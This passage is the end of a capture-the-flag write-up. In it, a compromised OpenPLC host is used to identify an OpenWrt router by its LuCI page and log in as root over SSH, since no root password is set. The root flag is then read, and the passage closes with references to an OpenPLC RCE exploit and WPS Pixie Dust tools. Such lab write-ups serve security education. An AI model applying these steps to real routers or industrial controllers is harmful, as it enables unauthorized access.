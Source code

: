 ```
                        }
                </style>
        </head>
        <body>
                <a href="cgi-bin/luci/">LuCI - Lua Configuration Interface</a>
        </body>
</html>
```

Based on the IP address and LuCI Lua configuration interface on port 80, we can make a reasonable guess that this is an OpenWRT router. We refer to https://openwrt.org/docs/guide-quick-start/sshadministration#ssh_access_for_newcomers and try to ssh to the host.

```
root@attica01:/opt/PLC/OpenPLC_v3/webserver# ssh root@192.168.1.1
The authenticity of host '192.168.1.1 (192.168.1.1)' can't be established.
ED25519 key fingerprint is SHA256:ZcoOrJ2dytSfHYNwN2vcg6OsZjATPopYMLPVYhczadM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.1' (ED25519) to the list of known hosts.


BusyBox v1.36.1 (2023-11-14 13:38:11 UTC) built-in shell (ash)

  _______                     ________        __
 |       |.-----.-----.-----.|  |  |  |.----.|  |_
 |   -   ||  _  |  -__|     ||  |  |  ||   _||   _|
 |_______||   __|_____|__|__||________||__|  |____|
          |__| W I R E L E S S   F R E E D O M
 -----------------------------------------------------
 OpenWrt 23.05.2, r23630-842932a63d
 -----------------------------------------------------
=== WARNING! =====================================
There is no root password defined on this device!
Use the "passwd" command to set up a new password
in order to prevent unauthorized SSH logins.
--------------------------------------------------
root@ap:~# ls -al
drwxr-xr-x    2 root     root          4096 Jan  7 21:20 .
drwxr-xr-x   17 root     root          4096 Mar 17 10:54 ..
-rw-r-----    2 root     root            33 Mar 17 10:54 root.txt
```

We successfully gained access to the host and found the root flag.

## References:
- https://www.cvedetails.com/cve/CVE-2021-31630/
- https://packetstormsecurity.com/files/162563/OpenPLC-WebServer-3-Remote-Code-Execution.html
- https://github.com/kimocoder/OneShot/tree/master
- https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-(Offline-WPS-Attack)
- https://github.com/ernw/static-toolbox/releases
- https://openwrt.org/docs/guide-quick-start/sshadministration#ssh_access_for_newcomers